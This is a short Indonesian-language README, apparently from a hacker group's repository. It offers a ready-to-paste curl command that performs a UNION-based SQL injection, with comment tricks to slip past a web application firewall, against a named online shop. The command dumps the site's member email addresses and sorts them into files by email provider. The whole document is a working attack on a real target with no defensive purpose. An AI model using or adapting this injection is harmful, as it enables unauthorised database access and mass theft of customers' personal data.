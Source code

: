 # Extract-data-with-SQLi (curl & grep)

PERTAMA :.
Inject manual seperti biasa dengan dios yg uda nampilin all email

Langsung replace dengan target yg uda didios mode dump data ya

Paste di terminal bungurasih ya :v

```
curl --silent "http://m.sweetyboutique.com/product-detail.php?id=13584+and+0+/*"\!"00000UNION*/+SELECT+1,(select(@x)from(select(@x:=0x00),(select(0)from(tmember)where(@x:=/*"\!"00000concat*/(@x,0x3c62723e,email))))x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+" >> tmp;grep -o '[[:alnum:]+\.\_\-]*@[[:alnum:]+\.\_\-]*' "tmp" | sort | uniq -i > list;echo "";echo "Total Dumped : `wc -l list`";for i in gmail yahoo aol hotmail;do cat list | grep $i > $i.txt;echo "[+] `wc -l $i.txt`";done;cat list | grep -v gmail | grep -v yahoo | grep -v aol | grep -v hotmail > others.txt;echo "[+] others : `wc -l others.txt`";rm tmp;

```

NB (penting) : 
klo utk smisal ada waf yg perlu pake /*! Comment */
Tanda ! Harus diginiin "\!" ya

Result :

Lgsg berbentuk txt sort by kandang (gmail,aol,dll)

Keep simple 

Versailles ~ Cans21
Sec7or Team - Surabaya Hacker Link
